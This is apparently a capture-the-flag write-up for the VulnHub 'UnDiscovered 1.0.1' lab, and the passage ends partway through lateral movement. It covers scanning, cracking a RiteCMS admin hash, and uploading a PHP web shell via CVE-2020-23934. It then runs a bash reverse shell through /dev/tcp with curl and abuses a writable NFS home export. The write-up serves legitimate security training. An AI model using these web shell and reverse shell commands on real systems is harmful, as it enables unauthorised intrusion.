# Undiscovered 1.0.1

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [ UnDiscovered: 1.0.1](https://www.vulnhub.com/entry/undiscovered-101,550/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Discovery consists not in seeking new landscapes, but in having new eyes.. This works better with VirtualBox rather than VMware ## Changelog v1.0.1 - 2020-09-09 v1.0.0 - 2020-09-06 *

## Summary
UnDiscovered: 1.0.1 starts with a web server with  a domain name found in the general port scanning, with `ffuf` identify some virtual hosts, but mostly of them seems to be noisy, and only one is different in size. After check them I identify that they use the `RiteCMS 2.2.1` and after google that versión I find a [PoC of an authenticated remote code execution](https://www.exploit-db.com/exploits/48636), and it has the code `CVE-2020-23934`, but it requires authentication, then after use `feroxbuster` I identify the `/data` directory listing, that contains the `userdata` file, this file is a SQLite database. I use the DB Browser for SQL Lite `DB4S`, and I find admin credentials, but the password is hashed, when google the source code of the `RiteCMS` I can figure out that the hash use the structure `sha1($pass.$salt)`, and I was able to crack it with `hashcat`, now with an authenticated user I could perform the `CVE-2020-23934` to create a webshell and after that perform a reverse shell with the user `www-data`. In the server, with LinPEAS identify that the `/usr/bin/vim.basic` binary owner by `root` and it has `cap_setuid+ep` capabilities, but I need to be in the `developer` group to be able to run it. Then I start to enumerate the other ports available. After read the `NFS` config file I can mount the user `william` home directory, and I also can write files, so I add the SSH keys to connect trrough SSH, In the `william` home also find a binary `script` file that has setuid permissions with the `leonard` user, When decompiled it with `Ghidra` I notice that it runs the `cat` command with any file inside the `leonard` directory that I put as an argument, then I can get the `leonard` private SSH key, and get the `leonard` shell. The user `leonard`  belongs to the `developer` group, then I can abuse the capabilities of the `/usr/bin/vim.basic`  found early to get the root shell.

1. CWE-219: Storage of file with sensitive data under web root
2. CWE-916: Use of Password Hash With Insufficient Computational Effort
3. CWE-78: OS Command Injection
4. CWE-552: Files or Directories Accessible to External Parties
5. CWE-434: Unrestricted Upload of File with Dangerous Type
6. CWE-250: Execution with Unnecessary Privileges
7. CWE-269: Improper Privilege Management

#VirtualBox #Nmap #HashID #HashCat #Ghidra #Python #Feroxbuster #Ffuf #DB4S #SQLite #rpcbind #NFS #mount #RiteCMS #vhosts #SHA-1 #LinPEAS #setuid #Capabilities

## Enumeration

When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration
And I find out that the IP is `192.168.2.19`



And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-sca 192.168.2.19
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-13 17:55 EST
Nmap scan report for 192.168.2.19
Host is up (0.0020s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp    open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.18
111/tcp   open  rpcbind  2-4 (RPC #100000)
2049/tcp  open  nfs      2-4 (RPC #100003)
42598/tcp open  nlockmgr 1-4 (RPC #100021)
Service Info: Host: 127.0.1.1: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 401.01 seconds
```
And I identify 5 open ports , the `OpenSSH 7.2p2` service runs in `22` TCP, and `Apache httpd 2.4.18` service runs in `80` TCP, and `rpcbind 2-4` service runs in `111` TCP, and `nfs 2-4` service runs in `2049` TCP, and `nlockmgr 1-4` service runs in `42598` TCP, and is `Ubuntu 4ubuntu2.10`.

When I use the `nmap` general scripts:
```shell
$ nmap -p 80 -sCV -oA scans/nmap-tcp-script-scan 192.168.2.19
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-13 18:01 EDT
Nmap scan report for 192.168.2.19
Host is up (0.022s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:76:81:49:50:bb:6f:4f:06:15:cc:08:88:01:b8:f0 (RSA)
|   256 2b:39:d9:d9:b9:72:27:a9:32:25:dd:de:e4:01:ed:8b (ECDSA)
|_  256 2a:38:ce:ea:61:82:eb:de:c4:e0:2b:55:7f:cc:13:bc (ED25519)
80/tcp    open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://undiscovered.thm
|_http-server-header: Apache/2.4.18 (Ubuntu)
111/tcp   open   rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100021  1,3,4      34245/tcp6  nlockmgr
|   100021  1,3,4      43471/tcp   nlockmgr
|   100021  1,3,4      48094/udp   nlockmgr
|   100021  1,3,4      52496/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open   nfs     2-4 (RPC #100003)
42598/tcp closed unknown
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```
Then I can see the domain `undiscovered.thm` and I add it to the `/etc/hosts` file:
```shell
$ echo "192.168.2.19 undiscovered.thm" | sudo tee -a /etc/hosts
```

## Normal use case

The target is a web server with `NFS` and `SSH` service, given I can access `http://undiscovered.thm`, then I can see:



But it does not have any link to another endpoint.

## Dynamic detection
Authenticated remote code execution in `RiteCMS 2.2.1` `CVE-2020-23934`.

Given the website has the domain `undiscovered.thm`, then I can use the `ffuf` command to search for virtual hosts:
```shell
$ ffuf -H "Host: FUZZ.undiscovered.thm" -c -w \
> bitquark-subdomains-top100000.txt:FUZZ -u http://192.168.2.19 -fc 302
```
Then I find 17 virtual hosts 
But I notice that only 16 of them have the same number of lines, and that makes me think that they are all just noise, and I only add the one with a different number of lines called `deliver`, and I choose one from the noisy group called `develop`, and I add them to my `/etc/hosts` file.

When I compare the two subdomains, then I can see that are very similar:



And I see the `RiteCMS version 2.2.1`, When I google the version in case there are exploits, then I find a[ PoC of an authenticated remote code execution](https://www.exploit-db.com/exploits/48636), and it has the code `CVE-2020-23934`. But the vulnerability requires having an authenticated user.

When I run `feroxbuster` on both virtual hosts:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt \
> -u http://deliver.undiscovered.thm/ -x php,html,md,inc.php -e
```
Then I can notice that in the `developer` vhost nothing is found, but in 'deliver' vhost it found many endpoints:



And the `/data` endpoint catches my eye. When I check `/data`, then I find out that it is a directory listing



And it contains a file called userdata. When I download that file, then I notice that I can open it with DB Browser for SQL Lite, and I find admin credentials:



And I need to understand how the hash is stored. When I google `site:github.com RiteCMS 2.2.1`, then I find a [GitHub fork](https://github.com/compleatguru/ritecms) with that version. When I read the login function, then I can see that it use `SHA-1` with salt:



And the hash is the first 40 characters, and the salt is the last 10 characters.
When I search with the Hashcat command the mode of this type of hash:
```shell
$ hashcat --help | grep -i "SHA1"

...
110 | sha1($pass.$salt)
...
```
Then I identify the mode `110`. When I store the hash found in a file called `admin.hash`, and I use the `hashcat` command with the Rockyou list:
```shell
$ hashcat -a 0 -m 110 admin.hash rockyou.txt --force
...
009dbadbcd5c49a89011b47c8cb27a81fcc0f2be:54669bfcb8:liverpool
...

```
Then it can crack it, and now I have the credentials `admin:liverpool`.
When I go to the `/cms/login.php`:



And I access using the credentials found, and I follow the steps to reproduce the `CVE-2020-23934`, and that means I have to go to the file manager :



And upload a new file, and I called this file `ws.php`, and it contains the following payload:
```php
<?php system($_GET['cmd']); ?>
```
And if I use the `curl` command:
```shell
$ curl "http://deliver.undiscovered.thm/files/ws.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I get the `id` response, and I can conclude that the vulnerability exists, and I can inject commands with the user `www-data`.


## Exploitation
Reverse shell with `RiteCMS 2.2.1`, mount an `NSF` home directory, reverse engineer a Linux binary and use risky capabilities.

Given I can access to `deliver.undiscovered.thm`, and it runs `RiteCMS 2.2.1`, and I can download the database of the  `userdata` file, and I can crack the hash to get the admin credentials, and I upload the `ws.php` file which works as a web shell. then I can try to perform a reverse shell.

When I use the `nc` command:
```shell
$ nc 1234
```
And I `curl` the `/files/ws.php` with the payload:
```shell
$ curl "deliver.undiscovered.thm/files/ws.php?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.2.6/1234%200>%261'"
```
Then I get a reverse shell of the user `www-data`:



When I explore the server, then I find out why the `ffuf` command found so many virtual hosts., and I confirm that only `deliver` has useful data:



When I check the `/etc/passwd` file:
```shell
www-data@undiscovered:/var/www$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
william:x:3003:3003::/home/william:/bin/bash
leonard:x:1002:1002::/home/leonard:/bin/bash
```
Then I find the users `william` and `leonard`.

When I decide to use the `LinPEAS` script to enumerate the server, and I download it:
```shell
$ wget "https://github.com/carlospolop/PEASS-ng/
> releases/latest/download/linpeas.sh"
```
And I open an `HTTP` Python server:
```shell
$ python3 -m http.server 8000
```
And I download it to the target server:
```shell
www-data@undiscovered:/tmp$ wget 192.168.2.6:8000/linpeas.sh
```
And I give it execution permissions:
```shell
www-data@undiscovered:/tmp$ chmod +x linpeas.sh
```
And I execute it:
```shell
www-data@undiscovered:/tmp$ ./linpeas.sh
```
Then I can see an exploitable capability :



And it is with the binary `/usr/bin/vim.basic`. When I search where it is:
```shell
www-data@undiscovered:/tmp$ whereis vim
vim: /usr/bin/vim /usr/bin/vim.tiny /usr/bin/vim.basic /etc/vim
/usr/share/vim /usr/share/man/man1/vim.1.gz
```
When I check the permissions of the binary:
```shell
www-data@undiscovered:/tmp$ ls -la /usr/bin/vim.basic
-rwxr-xr-- 1 root developer 2437320 Mar 19  2020 /usr/bin/vim.basic
```
Then  this can be the method to escalate privileges to the root user, but first I need to be part of the `developer` group.
When I check who belongs to that group:
```shell
www-data@undiscovered:/tmp$ cat /etc/group
...
developer:x:3004:leonard
...
```
Then I would need to pivot to the user `leonard`, and at this point, I try to enumerate the other ports. When I look for the TCP port `2049` in Hacktricks, then I can see that it works like the `SMB` in windows, and it allows access to files over a network, and treats them as if they reside in a local file directory. When I google `how to set up NFS`, Then I find a post from [digitalocean](https://www.digitalocean.com/community/tutorials/how-to-set-up-an-nfs-server-using-block-storage), and it says that it is configured in the `/etc/exports` file.
When I check that file:
```shell
www-data@undiscovered:/var/www$ cat /etc/exports
/home/william *(rw,root_squash)
```
And that means that I could mount the path `/home/william`, and I could read and write access to the volume. When I research how to mount an `NSF` service, and I find that I could use the `mount` command, and I create a directory called `william` in `/mnt`:
```shell
$ mkdir /mnt/william
```
And I run the `mount` command:
```shell
$ mount -t nfs 192.168.2.168:/home/william /mnt/william -o nolock
mount bad option; for several filesystems (e.g. nfs, cifs) you might need
a /sbin/mount.<type> helper program.
```
Then I google the error, and I find that I have to install `nfs-common`. When I try to install it:
```shell
$ sudo apt update && sudo apt install nfs-common
Package 'nfs-common' has no installation candidate
```
Then it fails, and after a while of reading about how to solve this, when I google `sudo apt install nfs-common fails`, then I find in [askubuntu a question](https://askubuntu.com/questions/710308/apt-get-install-nfs-common-specific-version), and it says `apt-get install nfs-common specific version`. and I read that I can download the `.deb` packages. When I go to the [Debian packages](https://packages.debian.org), and I searched by `nfs-common`, then I find the package, for my machine is `amd64` architecture, when I download the `nfs-common` deb package:
```shell
$ wget "http://ftp.us.debian.org/debian/pool/main/n/nfs-utils/
> nfs-common_1.3.4-6_amd64.deb"
```
And install it with the `dpkg` command:
```shell
$ sudo dpkg -i nfs-common_1.3.4-6_amd64.deb
...
dpkg: dependency problems prevent configuration of nfs-common:
nfs-common depends on libnfsidmap2; however:
  Package libnfsidmap2 is not installed.
nfs-common depends on rpcbind; however:
  Package rpcbind is not installed.
...
```
Then it requires some dependencies, but on the same Debian page of the `nfs-common`, I find them. When I download and install the dependencies, then I can already install the `nfs-common` package. When I run the `mount` command mentioned above again, and I check if the directory was mounted
```shell
$ ls -la /mnt/
drwxr-x--- 4 nobody 4294967294 4.0K Sep  9  2020 william
```
But I can notice an error with the owner and the group, when I google it, then I find the post [NFS4 mount shows all ownership as "nobody" or 4294967294](https://www.diewufeiyang.com/post/921.html) and it says that the `NFS` v4 server must know the same user, and group accounts as the `NFS` client, and from the server enumeration, I know `william` has the `uid 3003`.

When I create the user on my attack machine:
```shell
$ sudo useradd william -u 3003 -s /bin/bash
```
And I unmount the previous mount:
```shell
$ sudo umount -f -l /mnt/william
```
And I mount it again with the command mentioned above, then I can successfully mount the william's home



## Lateral movement

And there I find the user flag, and I identify a binary script that has the setuid permission, and it fails to set the owner
and it is probably because the owner is `leonard`.
When I use the `file` command:
```shell
william@attack-pc:/mnt/william$ file script
script: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1
(SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2
for GNU/Linux 2.6.32,
BuildID[sha1]=6e324a50ee883a60b395cdd1c6a64f96e6546736, not stripped
```
Then I identify a `ELF` binary.

